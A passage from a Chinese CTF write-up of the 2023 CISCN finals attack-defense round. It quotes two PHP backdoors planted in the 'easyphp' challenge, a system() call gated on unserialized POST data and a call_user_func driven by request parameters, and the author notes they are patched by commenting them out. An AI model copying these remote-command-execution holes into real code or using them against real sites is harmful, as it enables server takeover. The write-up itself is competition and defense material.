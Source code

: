 ```yaml
---
title: "2023 CISCN 总决赛 Writeup"
date: 2023-07-27T19:33:55+08:00
lastmod: 2023-07-27T19:33:55+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


2023 CISCN 总决赛 Writeup



## AWD

### easyphp

开局 D 盾扫出来两个 system 后门, 位于 1.php 和 index.php

```php
if(isset($_POST['user']))
{
    $_SESSION['user'] = unserialize($_POST['user']);
}
......
if($_SESSION['user']['usertype'] === "super"){
    system($_POST['cmd']);
    unset($_SESSION['user']);
}else{
    echo $_SESSION['user'];
}
```

注释掉就行了

然后 /admin/api.php 有个 `call_user_func`

```php
function getdo($field = 'do', $default = false)
{
    if (!isset($_GET['do'])) return $default;
    return $_GET['do'];
}
function getcid($field = 'cid', $default = false)
{
    if (!isset($_POST['cid'])) return $default;
    return $_POST['cid'];
}

$do = getdo();
$cid = getcid();
call_user_func($do,$cid);
```
